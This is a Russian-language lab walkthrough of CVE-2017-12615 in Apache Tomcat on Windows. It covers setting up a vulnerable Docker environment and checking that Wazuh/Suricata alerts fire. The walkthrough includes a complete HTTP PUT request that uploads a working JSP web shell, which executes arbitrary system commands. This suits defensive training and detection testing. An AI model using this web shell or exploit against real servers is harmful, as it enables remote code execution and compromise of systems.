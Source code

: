 # CVE-2017-12615

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-12615](https://nvd.nist.gov/vuln/detail/CVE-2017-12615)
* [https://www.opencve.io/cve/CVE-2017-12615](https://www.opencve.io/cve/CVE-2017-12615)

Apache Tomcat — это комплект серверных программ от Apache Software Foundation, предназначенный для тестирования, отладки и исполнения веб-приложений на основе Java.

При запуске Apache Tomcat версий 7.0.0–7.0.79 в Windows с включенным методом HTTP PUT  можно загрузить файл JSP на сервер с помощью специально созданного запроса. При запросе этого файла будет выполняться код, содержащийся в нем.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команды:

```
docker compose build 
docker compose up -d
```

После запуска под адресу http://ваш-ip:8080/ будет доступна стандартная страница Apache Tomcat

<figure><img src="../../.gitbook/assets/cve-2021-40438(1).png" alt=""><figcaption></figcaption></figure>

Отправьте следующий запрос:

```
PUT /1.jsp/ HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 898


<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
```

В данном запросе полезной нагрузкой является код, реализующий CMD Injection

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Теперь, обращаясь к созданному файлу 1.jsp мы можем выполнять произвольные команды на хосте:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
